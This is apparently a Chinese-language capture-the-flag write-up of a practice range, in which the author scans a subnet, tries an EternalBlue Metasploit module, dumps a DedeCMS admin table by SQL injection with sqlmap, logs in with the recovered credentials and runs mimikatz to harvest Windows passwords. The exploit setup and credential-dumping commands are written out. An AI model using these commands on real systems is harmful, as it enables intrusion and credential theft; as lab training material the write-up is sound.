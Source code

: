 # 云尘靶场-铁三域控

## 第一次

通过vpn链接 然后fscan扫描c段



<img src="https://i-blog.csdnimg.cn/blog_migrate/883df7147188472c23677bfc4fe083f1.png" alt="" style="max-height:370px; box-sizing:content-box;" />


扫描出来三个ip存活 并且141存在永恒之蓝

我们看看能不能直接复现

按照原本的设置发现 提示这里需要通过32位来进行

那我们开始设置

 [利用MS17-010渗透win7（32位）_利用ms17-010渗透win7(32位)-CSDN博客](https://blog.csdn.net/qq_41617034/article/details/91051614) 

```cobol
https://github.com/1stPeak/Eternalblue-Doublepulsar-Metasploit-master
 
通过上面进行下载
 
然后修改解压后的文件夹名字为 Eternalblue-Doublepulsar-Metasploit
 
然后将内容设置在 /root 目录下
 
进入文件夹
 
cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
 
复制到msf的payload中
 
然后开始设置32位kali
 
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
 
wine cmd.exe
 
这里就设置完毕了
```

然后我们开始利用

```cobol
use exploit/windows/smb/eternalblue_doublepulsar
 
set payload
 
set RHOST ip
 
set LHOST kali的ip
 
run 
 
```

利用失败 不知道

于是我们开始看其他的吧 我们可以发现123 开放了 80端口



<img src="https://i-blog.csdnimg.cn/blog_migrate/4fd2b60e4af6a395558188b523a4b261.png" alt="" style="max-height:124px; box-sizing:content-box;" />


去访问看看

织梦cms 是有洞的

<img src="https://i-blog.csdnimg.cn/blog_migrate/eedd591e015ddd727db30dcaa152effc.png" alt="" style="max-height:184px; box-sizing:content-box;" />


首先不知道登录界面 我们开始扫目录



<img src="https://i-blog.csdnimg.cn/blog_migrate/3618f99282aba7fcf8e56a24fc9114eb.png" alt="" style="max-height:164px; box-sizing:content-box;" />


这里sql文件我们去访问

### SQL注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/5527d4a78ec3739c4e3b25e6d3a23ded.png" alt="" style="max-height:208px; box-sizing:content-box;" />


发现存在查询 很明显的注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/dac8bc6502d932c46b204dc43d277a60.png" alt="" style="max-height:457px; box-sizing:content-box;" />


然后访问即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/811fd39ce04601b798f4ffc34c50df96.png" alt="" style="max-height:265px; box-sizing:content-box;" />


获取了flag2 但是flag1 去哪里了

我们继续看

看了别人的poc



<img src="https://i-blog.csdnimg.cn/blog_migrate/5f7b52cb0b6fb934678648cd31c0432b.png" alt="" style="max-height:159px; box-sizing:content-box;" />


都是在这种目录下 我们去访问一下dede



<img src="https://i-blog.csdnimg.cn/blog_migrate/82f6855438c6af7178bac8ac3f79d364.png" alt="" style="max-height:391px; box-sizing:content-box;" />


试试看弱口令

<img src="https://i-blog.csdnimg.cn/blog_migrate/d02ea58e12558ea26b0bc8ebbb76ff87.png" alt="" style="max-height:844px; box-sizing:content-box;" />


这里还有一个 就是sql注入查看

```cobol
-u http://172.25.0.123/sql/index.php?id=2 -D dedecmsv57utf8sp1 -T topsec_admin --dump
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e41a10e9948738d346bc2d947ede9c36.png" alt="" style="max-height:223px; box-sizing:content-box;" />


MD5解密



<img src="https://i-blog.csdnimg.cn/blog_migrate/390e5c624d10d3d003eec9b2b4f07290.png" alt="" style="max-height:253px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/69fb55df100c96b883befd737ab55b35.png" alt="" style="max-height:633px; box-sizing:content-box;" />




然后我们测试的时候发现存在一个文件上传点  


<img src="https://i-blog.csdnimg.cn/blog_migrate/4385604e3fbfbd588a81de5b13145606.png" alt="" style="max-height:496px; box-sizing:content-box;" />


那我们写个🐎咯

发现并不需要 直接返回上一级就有了



<img src="https://i-blog.csdnimg.cn/blog_migrate/000d84fa26b43a3f58adc0ccabf86907.png" alt="" style="max-height:565px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/f6b6c032e078e34473ab6aa799b75428.png" alt="" style="max-height:291px; box-sizing:content-box;" />


这台机子就没东西了 因为没有其他内网了 所以我们还是需要通过永恒之蓝实现。。。。

去安装一下32位复现一下吧。。。。。

### 32位永恒之蓝（失败）



<img src="https://i-blog.csdnimg.cn/blog_migrate/a0110220422a6db29f525c391ae4340e.png" alt="" style="max-height:281px; box-sizing:content-box;" />


每次测试都是这样 所以我都在怀疑是我自己的问题还是环境的问题 于是我去虚拟机创建一个32位的win7测试



<img src="https://i-blog.csdnimg.cn/blog_migrate/9289e9076ad0b987c1171f39301aea1a.png" alt="" style="max-height:139px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/3f72d9917f0a6c3331833cd0a7b1ce83.png" alt="" style="max-height:526px; box-sizing:content-box;" />
裂开 自己的环境可以实现。。。。 奇了怪了。。。

多半是环境的问题了。。。。

看了下面师傅们的评论

发现



<img src="https://i-blog.csdnimg.cn/blog_migrate/eb249be686644211fc4d0818d1d6ae3a.png" alt="" style="max-height:67px; box-sizing:content-box;" />


检测也不行。。。

看wp咯

发现永恒之蓝不行了 但是我们sql的时候存在一个账号密码



<img src="https://i-blog.csdnimg.cn/blog_migrate/cfcd59f8a2317056d05cfed51333af5c.png" alt="" style="max-height:60px; box-sizing:content-box;" />


有点类似win的账号密码 我们去看看

```cobol
[16:48:24] [INFO] retrieved: administrator
[16:48:24] [INFO] retrieved: topsec.123
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c6a59d1f95a8956d09fe243f45f5862c.png" alt="" style="max-height:634px; box-sizing:content-box;" />


上了上了！！！！！

然后就G了没金币了 明天再来吧

## 第二次

第二次打开靶场开始链接 ok上不去了！！！！



<img src="https://i-blog.csdnimg.cn/blog_migrate/53035dea43f8e4ede5299b3aa2975ba6.png" alt="" style="max-height:237px; box-sizing:content-box;" />


是我的问题吗。。。。。

然后发现



<img src="https://i-blog.csdnimg.cn/blog_migrate/6206416af246c6ea23faf93a6c996ff5.png" alt="" style="max-height:480px; box-sizing:content-box;" />


其他用户 输入 administrator topsec.123就进去了。。。



<img src="https://i-blog.csdnimg.cn/blog_migrate/3c3365ef6b272f086d2ebdb6cf2092c5.png" alt="" style="max-height:480px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/1ebeb7a4a0ec441aec7fa5ad766765d7.png" alt="" style="max-height:278px; box-sizing:content-box;" />


发现了其他的域 那我们肯定就是要去看这个了

首先fscan上去扫一下咯

如何传文件搜一下就行了 会打开共享 然后就可以了

然后我们去扫描一下 上传32位的fscan



<img src="https://i-blog.csdnimg.cn/blog_migrate/ca0679a887ed03c07573d6e59691f982.png" alt="" style="max-height:177px; box-sizing:content-box;" />


确实发现了就这两个电脑 我们要如何远控呢

这里看了桌面存在一个win32 我们进去看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/20c37ada7f8bde6a31f58d48e6ed013d.png" alt="" style="max-height:122px; box-sizing:content-box;" />


这个在vol见过 可以直接获取windows密码

我们使用看看

```csharp
mimikatz # log
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

但是最后我获取不到password 我也不知道为什么了

第二次靶场也结束了明天看看吧

## 第三次

实在解不出来

看了wp 获取了密码

不知道为什么 我的ssp 不存在

原本还想通过永恒之蓝 但是无法实现（太菜了）



<img src="https://i-blog.csdnimg.cn/blog_migrate/e321b64b57e7496d5a1be9299364e535.png" alt="" style="max-height:1049px; box-sizing:content-box;" />


获取了flag

不是很难 但是复现的问题很多 自己也不知道怎么实现